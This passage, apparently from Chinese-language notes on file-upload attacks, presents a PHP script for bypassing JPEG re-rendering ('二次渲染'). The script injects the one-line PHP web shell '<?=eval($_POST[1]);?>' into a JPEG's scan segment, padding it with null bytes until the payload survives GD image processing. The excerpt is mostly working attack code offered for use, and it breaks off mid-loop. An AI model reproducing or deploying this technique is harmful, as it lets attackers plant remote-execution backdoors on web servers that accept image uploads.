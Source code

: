 ![img](文件上传.assets/1681142511298-9719e2bd-2127-47d9-8c95-298c282bb856.png)

## jpg二次渲染

运用以下脚本进行jpg二次渲染绕过

```php
<?php
$miniPayload = '<?=eval($_POST[1]);?>';
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}
if(!isset($argv[1])) {
    die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;
    if($dis->readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }
    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
        $marker = $dis->readByte();
        $size = $dis->readShort() - 2;
        $dis->skip($size);
        if($marker === 0xDA) {
            $startPos = $dis->seek();
            $outStreamTmp =
                substr($outStream, 0, $startPos) .
                $miniPayload .
                str_repeat("\0",$nullbytePayloadSize) .
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis->eof())) {
```